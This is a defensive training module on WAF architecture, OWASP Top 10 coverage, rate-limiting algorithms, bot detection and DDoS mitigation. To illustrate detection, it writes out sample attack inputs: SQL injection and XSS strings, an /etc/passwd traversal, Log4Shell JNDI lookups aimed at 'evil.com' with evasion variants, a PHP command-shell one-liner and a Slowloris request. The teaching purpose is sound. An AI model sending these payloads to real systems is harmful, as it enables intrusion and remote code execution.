





> **Complexity**: `[MEDIUM]`
>
> **Time to Complete**: 2.5 hours
>
> **Prerequisites**: [Module 1.2: CDN & Edge Computing](../module-1.2-cdn-edge/), basic web security concepts (HTTP methods, SQL, XSS)
>
> **Track**: Foundations — Advanced Networking

### What You'll Be Able to Do

After completing this module, you will be able to:

1. **Design** WAF rule sets that protect against OWASP Top 10 attacks without generating excessive false positives on legitimate traffic
2. **Implement** layered DDoS mitigation strategies combining network-level scrubbing, rate limiting, and application-level bot detection
3. **Evaluate** WAF deployment modes (inline vs. out-of-band, managed vs. custom rules) and their impact on latency, coverage, and operational burden
4. **Analyze** attack traffic patterns to distinguish volumetric, protocol, and application-layer DDoS attacks and select appropriate countermeasures

---

**September 2017. Equifax, one of the three major US credit bureaus, discloses a breach that exposed the personal data of 147 million Americans — Social Security numbers, birth dates, addresses, and driver's license numbers.**

The root cause? An unpatched Apache Struts vulnerability (CVE-2017-5638) that had a public patch available for two months before the breach. An attacker sent a crafted `Content-Type` header containing an OGNL expression that achieved remote code execution. A single malicious HTTP request, buried in normal traffic, compromised one of the largest repositories of personal data in the United States.

A properly configured Web Application Firewall would have blocked that request on day one. The OGNL injection pattern was well-known. The exploit matched signatures that WAF vendors had deployed within days of the CVE disclosure. **Equifax didn't need to patch faster — they needed a layer of defense that bought them time.**

This is the core promise of WAFs and DDoS mitigation: not perfection, but defense in depth. They don't replace good application security practices, but they catch what slips through — and when the entire internet decides to attack you at once, they're often the only thing standing between your application and total darkness.

---

## Why This Module Matters

Every application exposed to the internet is under constant attack. Not "might be attacked someday" — under attack right now, continuously, from automated scanners, botnets, and targeted adversaries. A typical public-facing web application sees thousands of malicious requests per day: SQL injection probes, cross-site scripting attempts, credential stuffing attacks, and vulnerability scanners looking for unpatched software.

WAFs provide a layer of protection between attackers and your application. They inspect HTTP traffic in real time, matching requests against known attack patterns and behavioral anomalies. When configured correctly, they block attacks that would otherwise exploit vulnerabilities in your code, your frameworks, or your infrastructure.

DDoS mitigation addresses a fundamentally different threat: overwhelming your application with sheer volume. When millions of compromised devices flood your servers with traffic, no amount of application security helps. You need network-level defenses that can absorb and filter traffic at scales that would crush any single server or datacenter.

> **The Bouncer Analogy**
>
> Think of a WAF as the bouncer at a nightclub. The bouncer checks IDs (validates inputs), turns away known troublemakers (blocks malicious signatures), and watches for suspicious behavior (detects anomalies). DDoS protection is more like crowd control outside the venue — when ten thousand people show up at once, you need barriers, police, and a plan that goes beyond what one bouncer can handle.

---

## What You'll Learn

- WAF architecture and inspection methods
- OWASP Top 10 and how WAF rules address each category
- Rate limiting algorithms: token bucket and leaky bucket
- Bot management and the arms race with automation
- DDoS attack taxonomy: volumetric, protocol, and application layer
- Tuning WAFs to minimize false positives
- Hands-on: Deploying a WAF with SQLi blocking and rate limiting

---

## Part 1: Web Application Firewall Architecture

### 1.1 What a WAF Does

```text
WAF — REQUEST INSPECTION PIPELINE
═══════════════════════════════════════════════════════════════

A WAF sits between clients and your application, inspecting
every HTTP request before it reaches your servers.
```



```text
INSPECTION POINTS
─────────────────────────────────────────────────────────────

    What the WAF examines:

    REQUEST
    ─────────────────────────────────────────────
    ✓ URI path         /admin/../../etc/passwd
    ✓ Query string     ?id=1 OR 1=1--
    ✓ Headers          Content-Type: ${jndi:ldap://evil}
    ✓ Cookies          session=<script>alert(1)</script>
    ✓ Body (POST)      username=admin'--&password=x
    ✓ File uploads     shell.php disguised as image.jpg
    ✓ HTTP method      TRACE, OPTIONS (if unexpected)
    ✓ Protocol         HTTP/1.0 (often used by bots)

    RESPONSE (some WAFs)
    ─────────────────────────────────────────────
    ✓ Status codes     500 errors (information leakage)
    ✓ Headers          Server: Apache/2.4.29
    ✓ Body content     Stack traces, SQL errors, credit cards

DEPLOYMENT MODELS
─────────────────────────────────────────────────────────────
```

> **Stop and think**: Why would a cloud WAF (like Cloudflare or AWS WAF) be better suited for DDoS protection than a reverse proxy WAF deployed in your own cluster?

```text
    1. CLOUD WAF (CDN-Integrated)
    ─────────────────────────────────────────────
    Cloudflare, AWS WAF, Akamai Kona, Azure Front Door

    Client → Cloud WAF → CDN → Origin

    ✓ Scales infinitely (CDN infrastructure)
    ✓ DDoS protection included
    ✓ Zero infrastructure to manage
    ✗ Data passes through third party
    ✗ Less customizable rule logic

    2. REVERSE PROXY WAF
    ─────────────────────────────────────────────
    ModSecurity + nginx, OWASP Coraza, HAProxy

    Client → Load Balancer → WAF Proxy → Application

    ✓ Full control over rules and logging
    ✓ Data stays in your infrastructure
    ✗ You manage scaling and availability
    ✗ Single point of failure if not HA

    3. EMBEDDED WAF (In-Application)
    ─────────────────────────────────────────────
    RASP (Runtime Application Self-Protection)

    Client → Application (with embedded WAF agent)

    ✓ Deepest application context
    ✓ Can inspect deserialized objects
    ✗ Performance overhead per request
    ✗ Language/framework specific
```

### 1.2 Rule Types

```text
WAF RULE CATEGORIES
═══════════════════════════════════════════════════════════════

SIGNATURE-BASED (Pattern Matching)
─────────────────────────────────────────────────────────────
Match known attack patterns in request data.

    Rule: If request body contains "UNION SELECT"
          AND request path matches "*.php"
          → BLOCK (SQL injection attempt)

    Rule: If header "Content-Type" matches ".*\$\{jndi:.*\}.*"
          → BLOCK (Log4Shell attempt)

    ✓ Low false positive rate for well-known attacks
    ✓ Fast matching (regex, string match)
    ✗ Cannot detect novel/zero-day attacks
    ✗ Evasion via encoding, fragmentation, case changes

ANOMALY SCORING (OWASP CRS Model)
─────────────────────────────────────────────────────────────
Each rule match adds points. Block when score exceeds threshold.

    Request: GET /search?q=<script>alert('xss')</script>&id=1' OR 1=1

    Rule 941100: XSS in query string       → +5 points
    Rule 941160: XSS script tag detected    → +5 points
    Rule 942100: SQL injection in parameter → +5 points
    Rule 942200: SQL boolean injection      → +5 points
    ─────────────────────────────────────────────────
    Total anomaly score: 20

    Paranoia Level 1 threshold: 5   → BLOCK ✓
    Paranoia Level 2 threshold: 5   → BLOCK ✓
    Paranoia Level 3 threshold: 5   → BLOCK ✓
    Paranoia Level 4 threshold: 5   → BLOCK ✓

    ✓ More resilient to evasion (multiple signals)
    ✓ Tunable sensitivity (raise/lower threshold)
    ✗ Harder to debug (which rule triggered?)
    ✗ Legitimate complex requests can score high

BEHAVIORAL / RATE-BASED
─────────────────────────────────────────────────────────────
Track client behavior over time, not individual requests.

    Rule: If client sends >100 requests/minute to /login
          → BLOCK for 10 minutes (brute force)

    Rule: If client hits >50 unique URLs in 30 seconds
          → CHALLENGE (likely scanner)

    Rule: If client error rate >80% over 5 minutes
          → THROTTLE (likely fuzzer/scanner)

POSITIVE SECURITY MODEL (Allowlisting)
─────────────────────────────────────────────────────────────
Define what GOOD traffic looks like. Block everything else.

    /api/users/{id}:
      method: GET
      id: integer, 1-999999
      headers:
        Authorization: Bearer [a-zA-Z0-9._-]+
      → Allow only matching requests

    ✓ Blocks unknown attacks (zero-day protection)
    ✗ Extremely difficult to maintain
    ✗ Breaks when application changes
    ✗ Practical only for simple, stable APIs
```

---

## Part 2: OWASP Top 10 and WAF Coverage

### 2.1 OWASP Top 10 (2021) WAF Mapping

```text
OWASP TOP 10 — WAF COVERAGE MATRIX
═══════════════════════════════════════════════════════════════

#   VULNERABILITY              WAF COVERAGE     NOTES
─── ──────────────────────── ────────────────── ─────────────

A01 Broken Access Control      ⚠️  Partial      WAF can block
                                                 path traversal,
                                                 forced browsing.
                                                 Can't enforce
                                                 app-level authz.

A02 Cryptographic Failures     ❌  None         WAF can't fix
                                                 bad encryption.
                                                 Some WAFs detect
                                                 sensitive data in
                                                 responses (PII).

A03 Injection (SQLi, XSS,     ✅  Strong        Core WAF
    Command, LDAP, etc.)                         capability.
                                                 CRS rules cover
                                                 most injection
                                                 patterns.

A04 Insecure Design            ❌  None         Architecture
                                                 problem, not
                                                 detectable at
                                                 request level.

A05 Security Misconfiguration  ⚠️  Partial      Can block
                                                 access to
                                                 admin panels,
                                                 .git directories,
                                                 debug endpoints.

A06 Vulnerable Components      ⚠️  Partial      Virtual patching!
                                                 Block known
                                                 exploit patterns
                                                 before you patch.

A07 Auth & Session Failures    ⚠️  Partial      Rate limit login
                                                 attempts, block
                                                 credential
                                                 stuffing.

A08 Software & Data            ⚠️  Partial      Can inspect
    Integrity Failures                           deserialization
                                                 payloads for
                                                 known gadget
                                                 chains.

A09 Logging & Monitoring       ❌  None         WAF provides its
    Failures                                     own logging, but
                                                 can't fix app
                                                 logging.

A10 Server-Side Request        ⚠️  Partial      Block requests
    Forgery (SSRF)                               containing
                                                 internal IPs
                                                 (169.254.x.x,
                                                 10.x.x.x).

COVERAGE SUMMARY
─────────────────────────────────────────────────────────────
    Strong coverage:    1/10  (Injection)
    Partial coverage:   5/10  (Access, Config, Components,
                               Auth, SSRF)
    No coverage:        4/10  (Crypto, Design, Integrity,
                               Logging)

    Key insight: WAFs are ONE layer of defense, not a
    replacement for secure coding practices.
```

### 2.2 Virtual Patching

```text
VIRTUAL PATCHING — BUYING TIME
═══════════════════════════════════════════════════════════════

When a new CVE is published but you can't patch immediately,
a WAF rule can block the exploit pattern.

EXAMPLE: Log4Shell (CVE-2021-44228)
─────────────────────────────────────────────────────────────

    Timeline:
    Dec 9, 2021:   CVE published
    Dec 9, 2021:   WAF vendors deploy rules (hours)
    Dec 10, 2021:  Massive exploitation begins
    Dec 13, 2021:  Log4j 2.16.0 released (4 days later!)
    Jan 2022+:     Many orgs still patching (weeks/months)

    WAF rule (simplified):
    ─────────────────────────────────────────────
    SecRule REQUEST_HEADERS|ARGS|REQUEST_URI \
      "@rx \$\{(?:jndi|lower|upper|env|sys|java|base64):" \
      "id:99001,\
       phase:2,\
       deny,\
       status:403,\
       msg:'Log4Shell CVE-2021-44228 attempt',\
       severity:CRITICAL"

    This rule blocked:
    ${jndi:ldap://evil.com/a}
    ${jndi:rmi://evil.com/a}
    ${${lower:j}${lower:n}di:ldap://evil.com/a}  (evasion)
    ${${env:NaN:-j}ndi:ldap://evil.com/a}        (evasion)

    WAF gave organizations DAYS to weeks of protection
    before they could patch their applications.

VIRTUAL PATCHING PROCESS
─────────────────────────────────────────────────────────────
    1. CVE published → Assess if your app is affected
    2. Create WAF rule to block exploit pattern
    3. Test rule against legitimate traffic (avoid false positives)
    4. Deploy rule (minutes vs days/weeks to patch)
    5. Patch application at normal pace
    6. Keep WAF rule even after patching (defense in depth)
```

---

## Part 3: Rate Limiting

### 3.1 Rate Limiting Algorithms

```text
RATE LIMITING ALGORITHMS
═══════════════════════════════════════════════════════════════

FIXED WINDOW
─────────────────────────────────────────────────────────────
Count requests per fixed time window (e.g., per minute).

    Window: 12:00:00 - 12:01:00   Limit: 100 requests

    12:00:00 │▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓│  95 requests  ✓
    12:01:00 │▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓│  88 requests  ✓
    12:02:00 │▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓│ 112 → BLOCKED at 100

    Problem — "Boundary Burst":
    ─────────────────────────────────────────────
    At 12:00:59: 95 requests (just under limit)
    At 12:01:01: 95 more requests (new window, resets)

    190 requests in 2 seconds! Limit was supposed to be 100/min.

SLIDING WINDOW LOG
─────────────────────────────────────────────────────────────
Track timestamp of every request. Count within rolling window.

    Window size: 60 seconds
    Limit: 100 requests

    At 12:01:30, count all requests since 12:00:30.
    No boundary burst problem!

    ✓ Accurate, no boundary issues
    ✗ Memory: must store every request timestamp
    ✗ O(n) counting per check

SLIDING WINDOW COUNTER (Hybrid)
─────────────────────────────────────────────────────────────
Approximate the sliding window using two fixed windows.

    Previous window (12:00-12:01): 84 requests
    Current window  (12:01-12:02): 36 requests so far
    Current position: 12:01:15 (25% into current window)

    Weighted count = 84 × 0.75 + 36 = 99
    (75% of previous window + 100% of current window)

    ✓ Fixed memory (two counters per client)
    ✓ Good approximation, no boundary bursts
    ✓ O(1) per check

TOKEN BUCKET
─────────────────────────────────────────────────────────────
Bucket holds tokens. Each request consumes one token.
Tokens refill at a constant rate.

    Bucket capacity: 10 tokens (burst limit)
    Refill rate:     2 tokens/second (sustained rate)
```



```text
    ✓ Allows controlled bursts
    ✓ Smooth rate over time
    ✓ Easy to implement with two values: tokens, last_refill
    ✓ Used by most APIs (Stripe, GitHub, AWS)

LEAKY BUCKET
─────────────────────────────────────────────────────────────
Requests enter a queue. Queue drains at fixed rate.
If queue is full, new requests are dropped.

    Queue capacity: 10
    Drain rate: 2 requests/second
```



```text
    ✓ Perfectly smooth output rate
    ✓ No bursts reach backend
    ✗ Adds latency (queuing)
    ✗ Less friendly than token bucket for API consumers

COMPARISON
─────────────────────────────────────────────────────────────
    Algorithm        Burst?    Memory     Precision   Use Case
    ────────────── ──────── ─────────── ──────────── ──────────
    Fixed Window     Yes*      Low        Low         Simple
    Sliding Log      No        High       Perfect     Strict
    Sliding Counter  Minimal   Low        Good        Production
    Token Bucket     Yes       Low        Good        APIs
    Leaky Bucket     No        Low        Good        Queue-based

    * Fixed window allows 2x burst at window boundaries
```

### 3.2 Rate Limiting Keys and Strategies

> **Pause and predict**: If you implement a rate limit of 100 requests per minute based purely on the user's source IP, how might this negatively affect a large university campus or corporate office?

```text
RATE LIMITING — WHAT TO LIMIT BY
═══════════════════════════════════════════════════════════════

BY SOURCE IP
─────────────────────────────────────────────────────────────
    100 requests/minute per IP address.

    ⚠️  Problem: NAT. A corporate office with 10,000 users
        behind a single IP gets rate-limited as one client.

    ⚠️  Problem: VPNs. Legitimate users sharing VPN exit IPs
        collectively exhaust the limit.

    Mitigation: Higher limits + IP reputation scoring.

BY API KEY / TOKEN
─────────────────────────────────────────────────────────────
    1000 requests/minute per API key.

    ✓ More granular than IP
    ✓ Ties to a specific customer/application
    ✗ Doesn't help for unauthenticated endpoints (login page)

BY USER SESSION
─────────────────────────────────────────────────────────────
    20 requests/minute per session to /login

    ✓ Prevents brute force per-account
    ✗ Attacker can create new sessions

BY ENDPOINT
─────────────────────────────────────────────────────────────
    Different limits for different endpoints:

    /api/search:     50 req/min  (expensive query)
    /api/users:      200 req/min (lightweight)
    /login:          5 req/min   (brute force protection)
    /api/export:     2 req/hour  (very expensive)

COMPOUND KEYS
─────────────────────────────────────────────────────────────
    Combine dimensions for fine-grained control:

    Key: IP + Endpoint + Method
    Limit: 10 POST requests to /login per IP per minute

    This allows:
    - 10 login attempts from Office IP 1
    - 10 login attempts from Office IP 2
    - Unlimited GET requests to /login (show the form)
    - Unlimited POST requests to /api/data (different endpoint)

RATE LIMIT RESPONSE HEADERS (IETF RFC 6585 / Draft)
─────────────────────────────────────────────────────────────
    HTTP/1.1 429 Too Many Requests
    Retry-After: 30
    X-RateLimit-Limit: 100
    X-RateLimit-Remaining: 0
    X-RateLimit-Reset: 1704067260

    Proper 429 responses let clients implement backoff.
    Include Retry-After to tell them when to try again.
```

---

## Part 4: Bot Management

### 4.1 The Bot Spectrum

```text
BOT TRAFFIC — NOT ALL BOTS ARE BAD
═══════════════════════════════════════════════════════════════

~40-50% of web traffic is automated (bots).

GOOD BOTS
─────────────────────────────────────────────────────────────
    Googlebot / Bingbot      Search engine crawlers
    GPTBot / Anthropic-AI    AI training crawlers
    Monitoring bots          Uptime/performance checks
    Feed readers             RSS/Atom fetchers

    Identification: User-Agent + IP range verification

    # Verify Googlebot
    host 66.249.66.1
    → crawl-66-249-66-1.googlebot.com

BAD BOTS
─────────────────────────────────────────────────────────────
    Credential stuffing      Try stolen username/password lists
    Content scraping         Steal product data, pricing
    Inventory hoarding       Hold items in carts, deny to real users
    Ad fraud                 Click on ads from fake browsers
    Vulnerability scanning   Probe for CVEs and misconfigs
    Spam bots                Submit forms, create fake accounts

BOT SOPHISTICATION LEVELS
─────────────────────────────────────────────────────────────

    Level 1: Simple Scripts
    ─────────────────────────────────────────────
    curl/wget/Python requests. Fixed User-Agent.
    Detection: User-Agent string, no JavaScript execution.

    Level 2: Headless Browsers
    ─────────────────────────────────────────────
    Puppeteer, Playwright, Selenium. Execute JavaScript.
    Detection: Browser fingerprinting (navigator, WebGL,
    canvas), JavaScript challenges.

    Level 3: Stealth Browsers
    ─────────────────────────────────────────────
    puppeteer-extra-stealth, undetected-chromedriver.
    Spoof all browser properties. Rotate User-Agents.
    Detection: Behavioral analysis (mouse movements,
    typing patterns, timing).

    Level 4: Human-Aided / CAPTCHA Farms
    ─────────────────────────────────────────────
    Real humans solving CAPTCHAs for $1/1000 solves.
    AI solving CAPTCHAs with >90% accuracy.
    Detection: Extremely difficult. Behavioral biometrics,
    device fingerprinting, threat intelligence.

DETECTION TECHNIQUES
─────────────────────────────────────────────────────────────

    Passive (no user impact):
    ├── TLS fingerprinting (JA3/JA4)
    │   Browser TLS handshakes have unique signatures.
    │   Chrome's JA3 ≠ Python requests' JA3
    │
    ├── HTTP/2 fingerprinting
    │   SETTINGS frame, WINDOW_UPDATE, priority
    │   Each browser has unique HTTP/2 behavior
    │
    ├── IP reputation
    │   Known bot IPs, datacenter IPs, proxy IPs
    │   Residential IPs are harder to block
    │
    └── Request pattern analysis
        Timing regularity, request sequence, header order

    Active (may impact UX):
    ├── JavaScript challenge
    │   Require JS execution to get a cookie/token
    │   Blocks curl/wget, not headless browsers
    │
    ├── CAPTCHA / Managed Challenge
    │   Image recognition, puzzle solving
    │   Blocks most bots, annoys users
    │
    └── Proof of Work
        Require client to solve computational puzzle
        (Cloudflare Turnstile's approach)
```

---

## Part 5: DDoS Attack Taxonomy and Mitigation

### 5.1 DDoS Attack Types

```text
DDoS ATTACK TAXONOMY
═══════════════════════════════════════════════════════════════

LAYER 3/4: VOLUMETRIC ATTACKS
─────────────────────────────────────────────────────────────
Goal: Overwhelm network bandwidth and infrastructure.

    UDP Flood
    ─────────────────────────────────────────────
    Send massive UDP packets to random ports.
    Victim's server checks for listening app → ICMP unreachable.
    Volume: Up to 3.47 Tbps (2025 record).

    SYN Flood
    ─────────────────────────────────────────────
    Send millions of TCP SYN packets with spoofed source IPs.
    Server allocates resources for half-open connections.
    Connection table fills → legitimate connections rejected.

    Mitigation: SYN cookies (stateless SYN handling).

    DNS Amplification
    ─────────────────────────────────────────────
    Send DNS queries with victim's spoofed IP to open resolvers.
    DNS response is 50-70x larger than the query.
    Amplification: 60-byte query → 4000-byte response.

    Attacker → Open Resolver: "What are ALL records for example.com?"
                               (spoofed source: victim IP)
    Open Resolver → Victim: [massive response]

    NTP Amplification: similar, up to 556x amplification.

    Carpet Bombing
    ─────────────────────────────────────────────
    Instead of targeting one IP, spread attack across entire
    /24 subnet. Each IP gets traffic below detection threshold.
    But aggregate traffic saturates upstream links.

LAYER 7: APPLICATION ATTACKS
─────────────────────────────────────────────────────────────
Goal: Exhaust application resources (CPU, memory, DB).

    HTTP Flood
    ─────────────────────────────────────────────
    Send legitimate-looking HTTP requests at massive scale.
    Each request is valid — hard to distinguish from real users.

    GET /search?q=very+expensive+query
    GET /api/export?format=pdf&all=true
    POST /login (with random credentials)

    Slowloris
    ─────────────────────────────────────────────
    Open many connections, send headers very slowly.
    Send one byte every 10 seconds. Never complete request.
    Server keeps connection open, waiting for rest of headers.
    Connection pool exhausted → no new connections accepted.

    # Conceptual Slowloris: keep sending partial headers
    GET / HTTP/1.1\r\n
    Host: target.com\r\n
    X-Header-1: value\r\n         ← sent at t=0
    ... wait 9 seconds ...
    X-Header-2: value\r\n         ← sent at t=9
    ... wait 9 seconds ...
    X-Header-3: value\r\n         ← sent at t=18
    ... never send final \r\n ...

    Mitigation: Request timeout, max header size, connection limits.

    R-U-Dead-Yet (RUDY)
    ─────────────────────────────────────────────
    Similar to Slowloris but for POST bodies.
    Send Content-Length: 1000000 then trickle 1 byte at a time.

LAYER 7: CHALLENGE-COLLAPSAR (CC) ATTACKS
─────────────────────────────────────────────────────────────
    Target computationally expensive endpoints.

    /search?q=a%20OR%20b%20OR%20c%20OR%20d...  (complex DB query)
    /api/report?start=2020-01-01&end=2025-12-31 (huge dataset)
    /resize?url=huge-image.png&w=1&h=1         (CPU-intensive)

    Small request → Massive backend computation.
    100 req/s can bring down a powerful server.
```

### 5.2 DDoS Mitigation Architecture

```text
DDoS MITIGATION — LAYERED DEFENSE
═══════════════════════════════════════════════════════════════

LAYER 1: ANYCAST NETWORK (Absorb)
─────────────────────────────────────────────────────────────
```



```text
    500 Gbps distributed across 330 PoPs = ~1.5 Gbps each.
    Each PoP has 100+ Gbps capacity. Attack absorbed.

LAYER 2: TRAFFIC SCRUBBING (Filter)
─────────────────────────────────────────────────────────────
```



```text
LAYER 3: APPLICATION-LEVEL PROTECTION
─────────────────────────────────────────────────────────────
    WAF rules for L7 attack patterns
    Rate limiting per endpoint
    CAPTCHA/challenge for suspicious behavior
    Auto-scaling to absorb remaining load
    Circuit breakers to protect downstream services

MITIGATION TIMELINE
─────────────────────────────────────────────────────────────
    t=0:        Attack begins
    t=0-10s:    Anycast distributes across PoPs
    t=10-30s:   Automatic detection (traffic anomaly)
    t=30-60s:   Scrubbing rules activated
    t=1-5min:   ML models classify and filter
    t=5min+:    Stable mitigation, attack absorbed

    Always-on vs On-demand:
    ─────────────────────────────────────────────
    Always-on (Cloudflare, Fastly):
      Traffic ALWAYS flows through scrubbing.
      Mitigation starts at t=0. No delay.

    On-demand (AWS Shield Advanced):
      Traffic flows directly to origin normally.
      During attack, BGP reroutes to scrubbing.
      30-60 second delay during reroute.
```

---

## Part 6: WAF Tuning — Reducing False Positives

### 6.1 The False Positive Problem

```text
FALSE POSITIVES — THE WAF TUNING CHALLENGE
═══════════════════════════════════════════════════════════════

A false positive blocks a legitimate request.

COMMON FALSE POSITIVE SCENARIOS
─────────────────────────────────────────────────────────────

    1. Blog comments containing SQL keywords
       User writes: "I want to SELECT the best UNION of teams"
       WAF sees: SELECT ... UNION → SQL injection! BLOCKED.

    2. Code-sharing platforms
       User pastes: <?php system($_GET['cmd']); ?>
       WAF sees: PHP code execution → Command injection! BLOCKED.

    3. Complex search queries
       User searches: price < 100 AND color = "red" OR size > "L"
       WAF sees: AND ... OR → SQL boolean injection! BLOCKED.

    4. File uploads with embedded metadata
       Image EXIF contains: "Canon EOS SELECT * FROM cameras"
       WAF sees: SELECT * FROM → SQL injection! BLOCKED.

    5. API payloads with special characters
       JSON body: {"formula": "=SUM(A1:B2)"}
       WAF sees: = at start → CSV injection! BLOCKED.

TUNING PROCESS
─────────────────────────────────────────────────────────────

    Phase 1: DETECTION MODE (2-4 weeks)
    ─────────────────────────────────────────────
    Deploy WAF in log-only mode. Don't block anything.
    Collect all rule matches against real production traffic.

    Action: LOG  (not BLOCK)

    Phase 2: ANALYZE FALSE POSITIVES
    ─────────────────────────────────────────────
    Review logged matches. Categorize:

    True Positive:  Real attack → Keep rule as-is
    False Positive: Legitimate request → Create exception
